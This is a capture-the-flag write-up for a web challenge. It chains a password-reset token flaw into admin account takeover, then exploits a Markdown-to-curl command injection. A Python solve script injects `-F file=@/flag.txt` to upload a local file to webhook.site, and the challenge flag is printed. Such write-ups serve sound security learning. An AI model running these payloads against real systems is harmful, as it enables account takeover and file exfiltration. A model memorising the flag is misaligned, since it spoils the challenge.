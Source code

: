```yaml
---
ai_date: '2025-04-27 05:17:07'
ai_summary: Command injection vulnerability via Markdown parsing allows for file upload
  and flag retrieval
ai_tags:
- cmd-inj
- markdown
- lfi
created: 2024-12-13T14:12
points: 775
updated: 2024-12-15T17:06
---
```


After using the app as intended, I think the solution is to reset someone else's password.

And after a bit of looking around this caught my attention.

```js [email-app/routes/index.js]
for (let item of response.data.items) {
    const recipients = item.Raw.To || [];
    if (recipients.some((recipient) => recipient === 'test@email.htb')) {
        mails.push(item);
    }
}
```

What if there are multiple recipients?

```python
url = "http://94.237.58.196:45364/reset-password/request"
response = requests.post(url, json={
    "email": ["test@email.htb", "admin@armaxis.htb"]
})
print(response.text) # User not found.
```

Sadly this didn't work.

And... I just realized that there is no email-token validation.

```js [challenge/routes/index.js]
const reset = await getPasswordReset(token);
if (!reset) return res.status(400).send("Invalid or expired token.");
```

Login Success.

## Command Injection?

There appears to be command injection.

```js [challenge/routes/index.js]
router.post("/weapons/dispatch", authenticate, async (req, res) => {;
  ...
  const { name, price, note, dispatched_to } = req.body;
  ...
    const parsedNote = parseMarkdown(note);
  ...
});
```

```js [challenge/markdown.js]
try {
    const fileContent = execSync(`curl -s ${url}`);
    const base64Content = Buffer.from(fileContent).toString('base64');
    return `<img src="data:image/*;base64,${base64Content}" alt="Embedded Image">`;
} catch (err) {
    console.error(`Error fetching image from URL ${url}:`, err.message);
    return `<p>Error loading image: ${url}</p>`;
}
```

The regex is simply matching anything that is of the format `![...](...)`, easy injection.

`curl` can be used to upload files via `curl -F "file=@path" url`

So to be elegant, I will not use random bash injection techniques.

## Solve

```python
import regex as re
import requests
s = requests.session()
t1 = "http://94.237.58.196:45364"  # main site
t2 = "http://94.237.58.196:44521"  # the email site

payload = '-F "file=@/flag.txt" https://webhook.site'

s.post(f"{t1}/reset-password/request", json={"email": "test@email.htb"})
token = re.search('Use this token to reset your password: ([0-9a-f]+)', s.get(t2).text).group(1)
s.post(f"{t1}/reset-password", json={"token": token, "newPassword": "password", "email": "admin@armaxis.htb"})

print(s.post(f"{t1}/login", json={"email": "admin@armaxis.htb", "password": "password"}).text)
print(s.post(f"{t1}/weapons/dispatch", json={"name": "hello", "price": 123, "note": f"![]({payload})", "dispatched_to": "admin@armaxis.htb"}).text)
```

```flag
HTB{l00k0ut_f0r_m4rkd0wn_LF1_1n_w1ld!_93d0b106b05aee3323f0425d988419d8}
```